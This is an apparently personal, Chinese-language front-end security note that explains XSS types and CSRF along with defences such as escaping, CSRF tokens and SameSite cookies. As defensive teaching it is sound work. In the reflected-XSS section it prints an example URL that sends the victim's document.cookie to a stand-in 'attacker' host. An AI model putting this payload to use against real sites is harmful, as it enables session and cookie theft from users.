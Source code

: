 ```yaml
---
tags: 
  - xss
  - csrf
---
```


# 安全問題：XSS 和 CSRF

<Tags :tags="$page.frontmatter.tags" />

在前端安全議題裡，最常碰到的就是 `XSS` 跟 `CSRF`。

[[TOC]]

## Cross-site scription (XSS)

為了避免與 CSS 混淆，因此將 C 的 Cross 改成交叉狀的 X，變成 XSS。

- **發生原因**：太相信使用者傳來的訊息、資源，沒有做任何的查驗或 format
- **惡意內容**：包含 `<script>` 的 js、HTML、Flash 等 browser 可以執行的程式碼，植入進原本的網站
- **攻擊對象**：開啟含有惡意程式碼網站的使用者

基於 XSS 攻擊的方法非常廣泛，但攻擊者多半是為了將 cookie 或 session 資料傳送給自己，或是將被使用者導向惡意網站，更甚至是在使用者的電腦上做其他操作。

### 攻擊種類

#### 1. Stored/Persistent XSS attack

情境像是**留言板、社交平台、表單**，只要有開放使用者輸入的 text field 都有可能被放進惡意 script，如果沒有先過濾資料再存進 database，之後任一個使用者只要需要看到這筆資料或留言，後端都會取出這段內容交給前端顯示在瀏覽器上，瀏覽器讀取到擁有那段程式碼的內容，就執行那段惡意 script。

🚀 範例：攻擊者在留言區輸入了下方文字，當其他人到該留言頁面時，就會直接彈出一個 alert 視窗。

```
感謝分享～
<a href="javascript: alert('xss attack!')">Click me!</a>
```

#### 2. Reflected XSS attack

常發生在**將搜尋結果顯示在畫面上的情境**。透過 URL 傳參的漏洞，攻擊者可以把一段帶有搜尋參數的網址貼給受害者，如果後端沒有過濾就直接把前端傳過來的參數作為 response 傳回前端，就會在結果的地方執行惡意腳本。

🚀 範例：攻擊者誘使他人點了下方連結，後端直接將 keyword 參數內容回給瀏覽器顯示，便自動執行 `<script>` 裡的惡意操作

```
http://website/search?keyword=<script>window.location='http://attacker/?cookie='+document.cookie</script> 
```

#### 3. DOM-based XSS attack

前兩類是後端接收資料後沒有先做一層過濾的問題，**但若發生 DOM-based 攻擊的話，就是你的問題了（中箭）。**

跟 Reflected 同樣都是藉由網址傳參的方式，但是 DOM-based 的情形中，後端並沒有傳回任何含有惡意 script 的結果給前端，而是前端直接取用有問題的參數使用像是 `innerHTML = someMaliciousParameter` 來顯示畫面。

::: tip As a vue programmer
在 Vue.js 中有時會使用到 `v-html` 來 render 含有 html tag 的 string，綜上所述，除非你是用在像是 i18n 這種是自己設定的內容，或是你**真的真的真的真的**很相信來源，不然千萬要小心使用。
:::

### 防範方法

我認為沒有比 OWASP 寫得還清楚的 [prevention cheat sheet](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.md) 了，所以以下只做簡單的說明：

::: warning 只要將某些字直接過濾，像是將 script 字眼全刪掉就沒事了？
可是如果一則正常的內容是 `我喜歡 javascript`，就會變成 `我喜歡 java`，這不行。
:::

所以重點應該是要 encode、escape（跳脫） 某些字元，像是 `"` encode 後變成 `&quot;`，而畫面上還是會顯示 `"`。而這過程要注意的重點千千百百個，在上述的 OWASP XSS 預防小抄中已有詳述。

### 結論

**永遠不要直接存入／顯示來自使用者的內容。**

::: tip 補充
有位日本工程師做了一個網站 [XSS Challenges](http://xss-quiz.int21h.jp/) 讓大家嘗試用各種 XSS 攻擊它，來挑戰一下吧！👻<br/>
:::

## Cross Site Request Forgery (CSRF)

中文為**跨站請求偽造**。由於在對後端發送 request 的時候會自動將 cookie 夾帶上去，攻擊者就利用這一點，製造出是由你發出 request 的假象，因為對後端而言，發出 request 的是你本人沒錯（像是利用 cookie 中的 token 確認你的執行權限足夠），但是你並不知道你發出了這個 request。

所以 CSRF 是一種**一點就中招**的攻擊方式，主要是讓你點下含有目標網站的網址及相關參數，讓你在不知情的情形下對目標網站發送 request。

### 防範方法

分成三個面向－**使用者**、**後端**及**瀏覽器**：

#### 使用者

在不使用網站時清除認證後的依據，像是登出，或是清除 cookie（通常也會自動登出），但是難保你會在使用網站時點到惡意連結。而且這個習慣相信決大部分的人都很難養成。

#### 後端

1. **檢查 referer**：使用者本人發送的 request referer 會是該網站，而 CSRF 發送的 request referer 則會是其他網站，但若是直接判斷 referer 是否合法會有問題，像是瀏覽器可能沒帶 referer、使用者關閉自動帶 referer，或是判斷 referer 的 function 有漏洞等，都可能會有問題
2. **加其他驗證法**：例如圖形驗證或是簡訊驗證碼等第三方驗證功能，都可以在發送 request 之前確定這的確是本人來自原網站的行為。這適用在不會頻繁使用的情境上，像是登入、轉帳等，但如果是頻繁操作的 request 可能會造成使用者的不便
3. **夾帶 csrftoken**：將一組由 server 生成出的 token 夾帶在任何隱藏的區域，像是 http request 的 header、form 的欄位等，帶給後端後交給後端驗證這個 csrftoken 是否有效。但是後端會需要記得這組 token 的狀態性。
4. **double submit cookie**：與上一項不一樣的是，server 不用儲存任何東西來確認 token 是否有效或過期，而是藉由比對隱藏區域的 token 跟 cookie 裡面的 token 是否一樣來達到驗證效果。就算攻擊者已經將一組他自己編的 token 寫在 form 裡面了，但他沒有權限去修改或寫入使用者瀏覽器裡的 cookie，所以還是不會成功。**但是！** subdomain 有權限修改 domain 的 cookie，所以如果攻擊者掌握了任何一個 subdomain，那這方法就會失效。

#### 瀏覽器

更改 cookie 的 attribute。cookie 的 attribute 裡有一項 `SameSite` ，對應的值會決定要不要把 cookie 帶給這次的 request，他有三種不一樣的設定：

1. **Strict**：只有 same-site 的 request 才能夾帶此 cookie。只有在 a.com 傳送到 a.com api 的 request 才會夾帶。像是我已經是登入 medium，在我點了別人傳來的另一個 medium 的網站就會失去登入狀態，因為 cookie 並沒有被夾帶送出去
2. **Lax**：大部分瀏覽器的預設值。放寬了像是 `<a>` `<form method="GET">` 等可以將 cookie 夾帶出去，在上例中跳轉到 medium 就會呈現登入狀態，但是其他的 cross-site 異步請求如 post 就不會帶上 cookie。基本上可以擋掉除了 GET 之外的 CSRF 攻擊。
3. **None**：無論是 same-site 或是 cross-site 的 request 都可以帶有這個 cookie

::: tip 補充
- same-site 的定義是 `同個網站`，同個網站 ≠ 同源，例如：
  - subdomain & domain：同源 ❌，同網站 ⭕️
  - 同個 domain 不同 port：同源 ❌，同網站 ⭕️
- Chrome 的預設是 `Lax`，如果要改成 `none` 就要多加 `Secure` 屬性，讓這個 cookie 只能透過 `https` 發送，不然無效
:::

### 結論

由於各大瀏覽器對 cookie same-site 的設定要求，因此只要在不同使用情境上妥善設定好 cookie，就能讓 CSRF 攻擊的發生機率大大降低，

另外這是我在查看資料的時候，看到一則在 2007 年，Gamil 發生的 CSRF 事件：[Warning: Google Gamil security failure](https://www.davidairey.com/google-Gmail-security-hijack)。

## 後記

在看網頁資安問題時才知道 [OWASP (Open Web Application Security Project)](https://owasp.org/) 這個組織，這個無營利組織探討並羅列了各種網頁應用上的資安問題。

有趣的是，看看前十大網頁安全問題 ([OWASP Top Ten](https://owasp.org/www-project-top-ten/))，CSRF 在 2017 年就已經不在之列了。

## 參考文章 

1. [XSS Filter Evasion Cheat Sheet | OWASP](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
2. [讓我們來談談 CSRF | TechBridge 技術共筆部落格](https://blog.techbridge.cc/2017/02/25/csrf-introduction/)

<CustomVssue :title="$page.title" />